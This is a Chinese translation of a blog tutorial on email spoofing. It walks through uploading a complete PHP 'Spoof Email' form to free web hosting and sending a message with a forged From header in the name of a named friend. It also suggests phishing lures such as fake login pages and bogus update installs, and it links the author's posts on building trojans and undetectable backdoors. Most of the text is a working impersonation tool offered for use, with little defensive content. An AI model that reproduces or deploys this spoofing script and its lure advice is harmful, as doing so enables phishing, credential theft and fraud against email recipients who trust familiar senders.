# 黑客如何假冒电子邮件 id:电子邮件欺骗和网络钓鱼攻击

> 原文：<https://infosecwriteups.com/how-hackers-impersonate-email-ids-email-spoofing-and-phishing-attacks-a215fcf9341b?source=collection_archive---------0----------------------->



# 电子邮件欺骗

**电子邮件欺骗**是一种网络攻击，攻击者发送看似由合法/已知个人或实体发送的虚假电子邮件。是执行`phishing attacks`或`spamming`的常用战术。电子邮件的接收者将会看到他们信任的电子邮件和他们熟悉的名字——主要是朋友、同事或他们一起工作的组织),并最终相信该电子邮件并采取上述行动。

在我以前的博客中，我提到过如何**创建木马和后门**。执行时，用户看到的是正常文件，但在后台，邪恶的代码会被执行。发送这些文件可能是电子邮件欺骗的一种应用。

[](/how-i-created-an-undetectable-backdoor-for-windows-ethical-hacking-d26e40a0ec) [## 我如何为 Windows 创建一个不可检测的后门——道德黑客

### 在这篇博客中，我为 windows 机器创建了一个不可检测的后门，秘密地远程访问计算机…

infosecwriteups.com](/how-i-created-an-undetectable-backdoor-for-windows-ethical-hacking-d26e40a0ec) [](/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6) [## 我如何创建一个木马恶意软件——道德黑客

### 木马恶意软件，当打开时似乎是一个合法的文件，但在后台，它会运行一些邪恶的过程，如…

infosecwriteups.com](/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6) 

# 如何恶搞邮件

第一步依赖于收集的信息和决定你想要欺骗的电子邮件。**电子邮件应该模仿来自目标可以信任的个人或组织的电子邮件。**都是社会工程！



如果是冒充朋友，可以告诉目标人打开图像。如果您冒充某个组织的支持成员或网站管理员，您可以告诉目标使用虚假的登录页面登录，或者告诉目标安装更新。

## 举个例子

假设我想冒充目标人物的朋友，他的名字是`Aakash`，我知道他的电子邮件 id 是`aakash@gmail.com`。我将尝试发送一封假邮件给我的目标，冒充他的电子邮件 id。

这真的很容易。去谷歌搜索`spoof emails online`。



你会发现很多网站提供这项服务。**从这些网站发送电子邮件的问题是，许多这些电子邮件最终会出现在目标人的垃圾邮件目录**中，而不是该人的收件箱中。这样做的原因是因为这些网站是公开的，很多人使用这些网站发送垃圾邮件，所以像谷歌，雅虎等邮件服务器。将从这些服务器收到的电子邮件标记为垃圾邮件。

要绕过这一点，你可以使用自己的虚拟主机方案，或者你可以注册一个免费的虚拟主机方案，用它来发送假邮件。

# 使用虚拟主机方案

这种方法的要求是网站托管提供商应该支持 php 文件，所以静态网站托管是行不通的。你也可以通过虚拟主机提供商使用你自己的域名，但是对于这个博客，我将使用免费的虚拟主机提供商。我将使用[**https://www.000webhost.com/**](https://www.000webhost.com/)。

这是一项付费服务，但我将使用他们的免费计划来写这个博客。转到上面的链接，向下滚动并点击`Free Web Hosting`下的免费注册。



注册后，点击右上角的创建新网站按钮。



将出现一个弹出窗口，您需要在其中添加您的网站名称和密码。现在记住这两个。

接下来打开[**https://files.000webhost.com/**](https://files.000webhost.com/)**在同一个浏览器中你登录到`webhost`账户。您可能需要也可能不需要输入上述凭据。如果出现提示，请输入上述凭据并继续。应该可以看到一个类似于下图的页面。**

****

**双击名为`public_html`的文件夹。将以下脚本保存在名为`send.php`的文件中，并上传到名为`public_html`的文件夹中**

```
<?phpif (isset($_POST["send"])) {$to = $_POST["to"];
 $subject = $_POST["subject"];
 $message = $_POST["message"];
 $from = $_POST["from"];
 $name = $_POST["name"];if (!(filter_var($to, FILTER_VALIDATE_EMAIL) && filter_var($from, FILTER_VALIDATE_EMAIL))) {
  echo "Email address inputs invalid";
   die();
 }$header = "From: " .  $name . " <" . $from . ">\r\nMIME-Version: 1.0\r\nContent-type: text/html\r\n";$retval = mail ($to, $subject, $message, $header);if ($retval) {
  echo "Email sent.";
 } else {
  echo "Email did not send. Error: " . $retval;
 }
} else {
 echo 
 '<html>
  <head>
   <style> 
    input[type=submit] {
      background-color: #4CAF50;
      border: none;
      color: white;
      padding: 14px 32px;
      text-decoration: none;
      margin: 4px 2px;
      cursor: pointer;
      font-size: 16px;
    }
   </style>
  </head>
  <body><h2>Spoof Email</h2><form action="/send.php" method="post" id="emailform">
     <label for="to">To:</label><br>
     <input type="text" id="to" name="to"><br><br>
     <label for="from">From:</label><br>
     <input type="text" id="from" name="from"><br><br>
     <label for="name">Name (optional):</label><br>
     <input type="text" id="name" name="name"><br><br>
     <label for="subject">Subject:</label><br>
     <input type="text" id="subject" name="subject"><br><br>
     <label for="message">Message [HTML is supported]:</label><br>
     <textarea rows="6" cols="50" name="message" form="emailform"></textarea><br><br>
     <input type="hidden" id="send" name="send" value="true">
     <input type="submit" value="Submit">
   </form><p>An e-mail will be sent to the desired target with a spoofed From header when you click Submit.</p></body>
 </html>' ;
}?>
```

****

****太好了，我们完成了！！！现在是采取行动的时候了。进入`000webhost`主页。你的网站将出现在一张卡片上。点击网址。****

> **如果你喜欢我的博客，你可以点击下面的按钮或者点击下面的链接[https://www.buymeacoffee.com/gouravdhar](https://www.buymeacoffee.com/gouravdhar)给我买杯咖啡**

********

**对我来说网址是`[https://test-xyz-infinee.000webhostapp.com/](https://test-xyz-infinee.000webhostapp.com/)`。**

**我需要在 url 的末尾添加`send.php`并运行它。
所以对我来说，网址将是`[https://test-xyz-infinee.000webhostapp.com/send.php](https://test-xyz-infinee.000webhostapp.com/send.php)`**

**将出现一个类似于下图所示的表单。**

****

**因为我是冒充的`Aakash`，他的电子邮件 id 是`aakash@gmail.com`，我将相应地填写细节。**

****

**最后点击提交，噗！发送的电子邮件**

****

**在检查我的电子邮件(target_email)时，我实际上收到了一封来自电子邮件地址`aakash@gmail.com`的电子邮件。我还在我的 iPhone 上收到了一个通知，它看起来很有说服力和真实性！**

********

**附上电子邮件打开后在浏览器上的截图。**

************

**名称显示正确。甚至电子邮件 id 也显示正确。**

**区分这不是原始邮件而是网络钓鱼邮件的唯一方法是在`via`之后写的文本，这也只有在电子邮件在网络浏览器中查看时才有效。**

> **这是一个探索我们博客平台[](https://www.thegeekyminds.com/)**的邀请。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。****
> 
> ****邀请您在[**https://thegeekyminds.com**](https://thegeekyminds.com/)通过我们的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯****

****[](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)****